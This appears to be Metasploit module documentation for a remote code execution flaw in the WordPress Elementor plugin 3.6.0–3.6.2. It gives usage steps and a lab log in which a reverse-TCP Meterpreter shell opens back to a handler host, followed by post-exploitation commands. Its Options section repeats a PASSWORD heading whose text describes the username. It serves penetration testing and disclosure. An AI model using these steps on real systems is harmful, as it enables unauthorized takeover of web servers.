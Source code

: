 ## Vulnerable Application

The WordPress plugin Elementor versions 3.6.0 - 3.6.2, inclusive have a vulnerability
that allows any authenticated user to upload and execute any PHP file. This is achieved
by sending a request to install Elementor Pro from a user supplied zip file.
Any user with Subscriber or more permissions is able to execute this.

Tested against Elementor 3.6.1

### Plugin

Can be downloaded from https://wordpress.org/plugins/elementor/advanced/

## Verification Steps


1. Install the plugin, no configuration is required, just hit skip.
2. Start msfconsole
3. Do: `use exploits/multi/http/wp_plugin_elementor_auth_upload_rce`
4. Do: `set username [username]`
5. Do: `set password [password]`
6. Do: `set rhosts [ip]`
7. Do: `run`
8. You should get a shell.

## Options

### PASSWORD

The username for a user with subscriber or higher privileges

### PASSWORD

The username for a user with subscriber or higher privileges

## Scenarios


### Elementor 3.6.1 on Wordpress 5.7.7 on Ubuntu 20.04

```
resource (elementor.rb)> use exploits/multi/http/wp_plugin_elementor_auth_upload_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (elementor.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (elementor.rb)> set username user
username => user
resource (elementor.rb)> set password user
password => user
resource (elementor.rb)> set verbose true
verbose => true
msf exploit(multi/http/wp_plugin_elementor_auth_upload_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/elementor/readme.txt
[*] Found version 3.6.1 in the plugin
[+] The target appears to be vulnerable.
[*] Looking for nonce
[+] Nonce: cfb42a92ae
[*] Uploading upgrade payload and activating...
[*] Payload file name: elementor-pro.php
[*] Sending stage (39927 bytes) to 2.2.2.2
[+] Deleted ../wp-content/plugins/elementor-pro
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:33052) at 2022-10-02 15:56:35 -0400
[+] Payload Uploaded Successfully

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-104-generic #118-Ubuntu SMP Wed Mar 2 19:02:41 UTC 2022 x86_64
Meterpreter : php/linux
```
